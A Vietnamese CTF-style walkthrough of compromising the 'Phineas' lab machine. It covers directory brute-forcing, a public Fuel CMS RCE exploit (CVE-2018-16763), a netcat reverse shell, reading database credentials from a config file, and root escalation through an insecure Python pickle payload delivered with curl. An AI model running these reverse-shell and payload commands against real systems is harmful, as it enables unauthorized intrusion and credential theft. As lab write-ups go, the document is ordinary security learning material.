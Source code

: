## Step 1
Dùng **netdiscover -r 10.0.2.0/24** để dò ip của victim

![image](https://user-images.githubusercontent.com/97771705/222623213-96b7c935-f64e-456b-886f-9848fee3f4eb.png)

IP là *10.0.2.5*

Quét port ra 4 port, trong đó có 1 port mysql 

![image](https://user-images.githubusercontent.com/97771705/223318597-503e6337-d3a5-4494-90b9-c779ee69317a.png)

![image](https://user-images.githubusercontent.com/97771705/223318808-c6786e72-4619-48f4-a1ba-4e6f5cc147db.png)

## Step 
Tìm path ẩn bằng gobuster

>gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5 -x html,php,txt

-dir: Chế độ dò tìm thư mục của gobuster.

```
Gobuster là một công cụ dò tìm thư mục và tệp tin trên các ứng dụng web. Nó hoạt động bằng cách gửi các yêu cầu HTTP tới các URL cụ thể, sau đó phân tích và hiển thị kết quả trả về từ máy chủ web. Gobuster hỗ trợ các phương thức HTTP như GET, POST, HEAD, OPTIONS, PUT, DELETE và CONNECT.
```

Tìm thấy 1 trang structure

![image](https://user-images.githubusercontent.com/97771705/223321109-040f3e01-6879-4f94-afb1-8f21e7253c1d.png)

Truy cập vào trang

![image](https://user-images.githubusercontent.com/97771705/223320795-03127848-e07d-4bea-bd9f-4fb081411f6e.png)

Ta tiếp tục tìm path ẩn của structure

> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5/structure -x html,php,txt

Phát hiện khá nhiều trang hay ho

![image](https://user-images.githubusercontent.com/97771705/223322168-14894230-8eed-4539-8fc5-1567cfc46739.png)

![image](https://user-images.githubusercontent.com/97771705/223321296-4e30fd1a-7e26-44c9-9146-4637662c0ae1.png)

![image](https://user-images.githubusercontent.com/97771705/223321412-efb75479-44be-49e9-85de-c8e00fb1eb09.png)

Trang /fuel mặc định là /fuel/start ->có vẻ như lại cần gobuster :)

> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.5/structure/fuel -x html,php,txt

Trang index.php chuyển hướng sang start

![image](https://user-images.githubusercontent.com/97771705/223322704-44a5ab48-433a-499b-92f2-1d471019b544.png)

Thử thay url bằng /index.php/fuel 

![image](https://user-images.githubusercontent.com/97771705/223323114-ac21dfa1-9395-4f2c-99a2-5dbd381c6337.png)

Tìm kiếm trên Google, phát hiện Fuel CMS có lỗ hổng RCE tại những phiên bản cũ. Một trong những code khai thác:

https://github.com/padsalatushal/CVE-2018-16763

Git clone code trên trang github trên về máy kali

![image](https://user-images.githubusercontent.com/97771705/223417730-70b91543-6dd8-416a-b789-594e6db99a61.png)

Nhập command reverse shell: tạo ra một kết nối từ victim machine đến attacker machine, thông qua đó attacker có thể kiểm soát và thực thi các lệnh trên victim machine. Khi thực hiện được kết nối này, attacker có thể truy cập vào các tài nguyên và dữ liệu trên victim machine, và có thể thực hiện các hành động như cài đặt phần mềm độc hại, lấy mật khẩu và tạo backdoor để giữ lâu dài quyền kiểm soát truy cập vào victim machine.

>nc 10.0.2.5 4444 /bin/bash

Sau đó đọc thông tin trong database.php

> cat /var/www/html/structure/fuel//config/database.php 

![image](https://user-images.githubusercontent.com/97771705/223422171-a6f74ea1-4bf9-464f-b325-dfbc4dd7b45e.png)

Ta đã có username và password, trở về máy phineas -> đăng nhập thành công

![image](https://user-images.githubusercontent.com/97771705/223422669-fa400788-e058-4df1-b0a1-84fb2ea8bd1b.png)

Hoặc dùng cách ssh cho pro :)

![image](https://user-images.githubusercontent.com/97771705/223422976-1e9f8cb9-08a4-4f94-92a9-7d74e86b6349.png)

![image](https://user-images.githubusercontent.com/97771705/223601249-a9ecd891-e0ba-410b-b8e9-838176fea35c.png)

Tìm kiếm loanh quanh các thư mục -> nhận được flag đầu tiên

![image](https://user-images.githubusercontent.com/97771705/223423539-fb08405f-35fd-4012-a371-6f0a2f6ef8cd.png)

## Step 3

Đến lúc leo thang đặc quyền r :) 

Trong số các folder khởi đầu của máy Phineas, chỉ có duy nhất /web là không có viết hoa. Mở ra có 1 file python

![image](https://user-images.githubusercontent.com/97771705/223424243-49792b4c-cfe5-46b6-acd5-a51bca3f77d9.png)

Có thể thấy nó bị dính lỗi Insecure Deserialization

Dùng lệnh **ip a** để tìm kiếm ip của máy phineas khi ta ssh trên kali ->10.0.2.6

Command exploit: tại terminal root kali

>wget https://gist.githubusercontent.com/kriss-u/085569495cb930e398759c0cbf45e3b7/raw/15fe119ed307ac69673bcaadd9fab84c32a85a00/pickle-payload-py3.py

>python3 pickle-payload-py3.py "nc 10.0.2.6 4444 -e /bin/bash"

>nc -nlvp 4444

Tại terminal ssh phineas 

>curl -d "awesome=Ket_qua_tai_cau_lenh_python_tren" -X POST http://127.0.0.1:5000/heaven

Quay về terminal root kali

![image](https://user-images.githubusercontent.com/97771705/223911610-5bafd821-956c-492d-b454-0379404ad454.png)



